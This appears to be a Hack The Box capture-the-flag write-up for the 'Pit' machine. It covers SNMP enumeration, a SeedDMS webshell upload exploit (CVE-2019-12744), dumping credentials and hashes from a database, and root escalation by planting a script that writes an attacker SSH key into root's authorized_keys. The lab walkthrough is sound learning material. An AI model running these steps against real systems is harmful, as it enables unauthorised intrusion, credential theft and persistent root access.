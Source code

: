 > Authors: **[polarbearer][author-profile-1]** & **[GibParadox][author-profile-2]**

## Discovery

### Port scanning

```bash
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.0 (protocol 2.0)
80/tcp   open  http            nginx 1.14.1
|_http-server-header: nginx/1.14.1
|_http-title: Test Page for the Nginx HTTP Server on Red Hat Enterprise Linux
9090/tcp open  ssl/zeus-admin?
| ssl-cert: Subject: commonName=dms-pit.htb/organizationName=4cd9329523184b0ea52ba0d20a1a6f92/countryName=US
| Subject Alternative Name: DNS:dms-pit.htb, DNS:localhost, IP Address:127.0.0.1
| Issuer: commonName=dms-pit.htb/organizationName=4cd9329523184b0ea52ba0d20a1a6f92/countryName=US
```

```bash
PORT    STATE    SERVICE  VERSION
161/udp open     snmp     SNMPv1 server; net-snmp SNMPv3 server (public)
162/udp filtered snmptrap
```

### Web browsing

Actually port 9090 is another webserver, with an index page full of JS. It
hides a few tags on the resulting page:

![][hidden-tags]

The JS is lightly obfuscated / minimized, making use of a "Cockpit" library:

```javascript
/* Some browsers fail localStorage access due to corruption, preventing Cockpit login */
```

Indeed, it stores some data on the client side:

![][local-storage]

Whatweb gives a little more details:

```bash
Whatweb http://pit.htb/
# http://pit.htb/ [200 OK] Country[RESERVED][ZZ], HTTPServer[nginx/1.14.1], IP[10.10.10.241], PoweredBy[Red,nginx], Title[Test Page for the Nginx HTTP Server on Red Hat Enterprise Linux], nginx[1.14.1]
whatweb http://pit.htb:9090/
# https://pit.htb:9090/ [200 OK] Cookies[cockpit], Country[RESERVED][ZZ], HTML5, HttpOnly[cockpit], IP[10.10.10.241], PasswordField, Script, Title[Loading...], UncommonHeaders[content-security-policy,x-dns-prefetch-control,referrer-policy,x-content-type-options,cross-origin-resource-policy]
```

The page uses OAuth:

```javascript
var s = u.OAuth || null;
if (s) {
    if (!s.TokenParam) s.TokenParam = "access_token";
    if (!s.ErrorParam) s.ErrorParam = "error_description";
}
```

### SNMP walk

The Nmap scan grabbed the community string, making way for enumeration. There
are a **lot** of informations: process names, ids, arguments, path, users, etc...

```bash
snmpwalk -v 1 -c public 10.10.10.241 .iso.3.6.1 | tee discovery/mib
grep -ia user discovery/mib
# SELinux User    Prefix     MCS Level  MCS Range                      SELinux Roles
# guest_u         user       s0         s0                             guest_r
# root            user       s0         s0-s0:c0.c1023                 staff_r sysadm_r system_r unconfined_r
# staff_u         user       s0         s0-s0:c0.c1023                 staff_r sysadm_r unconfined_r
# sysadm_u        user       s0         s0-s0:c0.c1023                 sysadm_r
# system_u        user       s0         s0-s0:c0.c1023                 system_r unconfined_r
# unconfined_u    user       s0         s0-s0:c0.c1023                 system_r unconfined_r
# user_u          user       s0         s0                             user_r
# xguest_u        user       s0         s0                             xguest_r
# Login Name           SELinux User         MLS/MCS Range        Service
# michelle             user_u               s0                   *
grep -ia ssh discovery/mib
# HOST-RESOURCES-MIB::hrSWRunParameters.1108 = STRING: "-D -oCiphers=aes256-gcm@openssh.com,chacha20-poly1305@openssh.com,aes256-ctr,aes256-cbc,aes128-gcm@openssh.com,aes128-ctr,aes128"
grep -ia html discovery/mib
# UCD-SNMP-MIB::dskPath.2 = STRING: /var/www/html/seeddms51x/seeddms
```

## Breaking-in

The path `/var/www/html/seeddms51x/seeddms` is served on the web: it is a
document sharing platform.

The credentials `michelle:michelle` previously harvested work:

![][seeddms]

Taking the hint and looking for CVEs on SeedDMS, CVE-2019-12744 stood out:

```
Exploit Steps:                                                                   
                                                                                 
Step 1: Login to the application and under any folder add a document.            
Step 2: Choose the document as a simple php backdoor file or any backdoor/webshell could be used.
Step 3: Now after uploading the file check the document id corresponding to the document.
Step 4: Now go to example.com/data/1048576/"document_id"/1.php?cmd=cat+/etc/passwd to get the command response in browser.
                                                                                 
Note: Here "data" and "1048576" are default folders where the uploaded files are getting saved.
```

The URL is exactly is advertised: `http://dms-pit.htb/seeddms51x/data/1048576/38/1.php?c=id`.

![][upload-folder]

Leading to RCE:

![][rce]

```
root:x:0:0:root:/root:/bin/bash
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
michelle:x:1000:1000::/home/michelle:/bin/bash
```

## Moving on

After browsing a while I stumbled on:

```xml
<database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="ied^ieY6xoquu" doNotCheckVersion="false">
```

Next:

```bash
/usr/bin/mysql -u'seeddms' -p'ied^ieY6xoquu' -D'seeddms' -e'show tables;'
# Tables_in_seeddms
# tblUserPasswordHistory
# tblUserPasswordRequest
# tblUsers
/usr/bin/mysql -u'seeddms' -p'ied^ieY6xoquu' -D'seeddms' -e'select * from tblUsers;'
# 1   admin   155dd275b4cb74bd1f80754b61148863    Administrator   admin@pit.htb   en_GB           1   0   NULL    0   0   0   NULL
# 2   guest   NULL    Guest User  NULL                2   0   NULL    0   0   0   NULL
# 3   michelle    0d8693435cfd30d3cdf295214da5c930    Michelle    michelle@pit.htb    en_GB   bootstrap       0   0   2021-09-28 18:23:31 0   0   0   NULL
# 4   jack    682d305fdaabc156430c4c6f6f5cc65d    Jack    jack@dms-pit.htb    en_GB   bootstrap       0   0   NULL    0   0   0   NULL
```

These are most likely MD5 hashes (32 chars etc).

Also the DB password works on `http://pit.htb:9090/` with user "michelle".

And there's actually a legit webshell!!

![][webshell]

## Escalation

In the SNMP scan output, the user information came from a "monitor" process:

```
NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor
```

```bash
cat /usr/bin/monitor
# for script in /usr/local/monitoring/check*sh
# do
#     /bin/bash $script
# done
ls -lah /usr/local/monitoring/
# ls: cannot open directory '/usr/local/monitoring/': Permission denied
echo _ > /usr/local/monitoring/heyhey && ls -lah /usr/local/monitoring/heyhey
# -rw-rw-r--. 1 michelle michelle 2 Sep 19 06:31 /usr/local/monitoring/heyhey
echo $'cp /root/root.txt /home/michelle/heyhey && chown michelle:michelle /home/michelle/heyhey' | /usr/local/monitoring/check-flag.sh
```

The previous SNMP scan shows that the monitor process will start on SNMP read queries:

```
NET-SNMP-EXTEND-MIB::nsExtendRunType."monitoring" = INTEGER: run-on-read(1)
```

```bash
snmpwalk -m +MY-MIB -v2c -c public 10.10.10.241 nsExtendObjects
# NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."monitoring" = STRING: cp: cannot stat '/root/root.txt': Permission denied
# NET-SNMP-EXTEND-MIB::nsExtendOutputFull."monitoring" = STRING: cp: cannot stat '/root/root.txt': Permission denied
```

Another try:

```bash
echo $'echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGn1kPrfCXCNR8Kxtlw3aM3CaaAGGVIIoZNmOfki/3k4rD5WTAw+XVa2gFCeTE/9xNsOAPxJh18hV9dYe1Lfk9ne55HsD2CCWtk/Gs7coYRdVfdDdM7ZzAjDcrXnJ+JFWY6DQAxVbG2S6defxVmhnLvTKtwb62vdFZ8dcQCs3yGTRLmaBz0ZSDUGUs2ZC+dTNVGMhqksnlwXMVnpStzRCjtw+bOAC6v95b6L9TF38qnMKbTz4OQqCpjPR8ET5CnCt3uCKsQxETTwD/B6wHP1cJ3GMcgrFwAZB20Uvoif1kM901oa7oeQDU2wXSCSADeq8RfBI3/Zd7GAGDicsBao7p" > /root/.ssh/authorized_keys' > /usr/local/monitoring/check-ssh.sh
```

[author-profile-1]: https://app.hackthebox.eu/users/159204
[author-profile-2]: https://app.hackthebox.eu/users/125033

[document-id]: images/document-id.png
[hidden-tags]: images/hidden-tags.png
[local-storage]: images/local-storage.png
[rce]: images/rce.png
[seeddms]: images/seeddms.png
[webshell]: images/webshell.png
